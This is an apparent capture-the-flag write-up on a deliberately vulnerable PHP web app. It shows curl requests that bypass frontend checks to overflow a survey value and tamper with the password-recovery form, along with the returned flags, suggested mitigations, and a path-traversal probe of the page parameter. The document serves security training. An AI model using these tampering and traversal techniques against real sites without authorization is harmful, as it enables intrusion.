 It is possible to overflow this value by handcrafting the POST request with `curl`, bypassing the frontend restriction. The flag is sent in the response.

```
jun@jun-Latitude-5430:~/Downloads/Postman$ curl -X POST localhost:8080/index.php?page=survey      -H "Content-Type: application/x-www-form-urlencoded"      -d "sujet=2&valeur=100" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
100  6120    0  6102  100    18  4247k  12829 --:--:-- --:--:-- --:--:-- 5976k

```

> The flag is `03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa`

### Mitigations
- Only allow authenticated users to write to database
- Validate inputs for overflow in the backend business logic layer

## Exploit: Forgot password validation
For the forgot password page, the submit form is a POST request to the server. Similar to the Integer input validaton exploit, the body can be manually handcrafted and changed, bypassing frontend restrictions. 

![image](https://hackmd.io/_uploads/BypnePgXxe.png)

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl -X POST $TARGET_IP/index.php?page=recover  -H "Content-Type: application/x-www-form-urlencoded" -d "mail=bruh@mail.com&Submit=Submit" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2621    0  2589  100    32  2288k  28959 --:--:-- --:--:-- --:--:-- 2559k
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ 
```

> The flag is `1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0`
### Mitigations
- Only allow authenticated users to write to database
- Validate inputs for overflow in the backend business logic layer

## Exploit: Directory manipulation

### Enumeration

The page parameter appears to be vulnerable to file path manipulation attacks.  The payload ./ was submitted in the page parameter. This returned the same content as the base request. The payload .../ was then submitted, and this returned a different response. This indicates that the application may be vulnerable to file path manipulation.  
